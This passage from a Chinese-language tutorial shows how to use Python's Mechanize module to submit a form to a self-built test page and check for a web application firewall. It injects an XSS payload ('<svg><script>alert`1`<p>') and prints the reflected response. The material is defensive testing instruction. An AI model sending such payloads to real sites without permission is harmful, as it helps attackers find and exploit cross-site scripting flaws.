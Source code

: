 利用『Mechanize』模块向后端Web应用程序提交请求，代码如下：

```python
import mechanize as mec


maliciousRequest = mec.Browser()
formName = 'waf'

maliciousRequest.open("http://thisisafakewebsite.net/testWAF.html")
maliciousRequest.select_form(formName)
```

看不懂代码没关系，下面一行行来解释下：

1. 第一行，引入『Mechanize』模块，给它取了个小名叫『mec』
1. 第二行，使用小『mec』创建一个『浏览器』实例
1. 第三行，定义一个变量`formName`，把上面HTML中form表单的name属性值『waf』赋给它
1. 第四行，打开指定的URL，就是你写的那个漏洞页面 *（不用多说，这是个HTTP请求，需要提供正确的URL，本地的相对路径是肯定没戏的）*
1. 第五行，传入变量`formName`，告诉小『mec』在打开的页面中找到名为『waf』的表单

可以将Payload注入到这个表单唯一的input域中，观察由服务端回复的响应，来检测判断是否存在WAF。

## 第三步：准备攻击Payload

在input域『data』中填入准备好的攻击Payload：

```python
crossSiteScriptingPayLoad = "<svg><script>alert&grave;1&grave;<p>"
maliciousRequest.form['data'] = crossSiteScriptingPayLoad
```

1. 第一行，定义变量`crossSiteScriptingPayLoad`，存储攻击Payload字符串
1. 第二行，将其填入form表单中的『data』域

现在可以提交表单来分析响应了。

## 第四步：提交表单

提交表单，并输出响应内容：

```python
maliciousRequest.submit()

response = maliciousRequest.response().read()
print response
```

没有部署WAF的时候，输出的响应内容是这样的：

```html
<html>
<body>
    Data from the form : <svg><script>alert&grave;1&grave;<p><br>
</body>
</html>
```
